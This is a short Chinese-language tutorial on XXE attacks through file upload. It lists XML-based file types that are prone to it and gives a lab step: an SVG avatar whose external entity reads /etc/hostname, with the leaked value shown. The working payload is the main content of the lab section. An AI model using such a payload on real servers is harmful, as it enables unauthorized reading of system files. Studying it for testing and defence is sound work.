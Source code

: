 # 文件上传进行 XXE 攻击

### 漏洞原理

如果服务器允许上传 xml 格式的文件，那么攻击者可以上传带有恶意实体的 xml 文件。

当攻击者在目标网站访问这个 xml 文件时，目标服务器如果有解析 xml 文件这一行为，将会触发 xxe。 

### 高风险文件类型示例

以下文件格式因包含 XML 结构而易受 XXE 攻击：

| **文件类型** | **说明**                                                     |
| :----------- | :----------------------------------------------------------- |
| **SVG**      | 矢量图像格式，本质为 XML 文件。常用场景：用户头像、图标上传。 |
| **DOCX**     | Office 文档，内部 ZIP 压缩包包含 XML 文件（如 `word/document.xml`）。 |
| **ODT**      | OpenDocument 文本，类似 DOCX 的开放格式。                    |
| **XLSX**     | Excel 表格文件，内部 XML 结构存储数据。                      |
| **XML**      | 直接上传 XML 配置文件或数据文件。                            |

### 实验

上传如下文件当头像：

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

解析后图像格式是这样的。

![image-20250416171354054](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250416171354054.png)

```
f982e13464ee
```

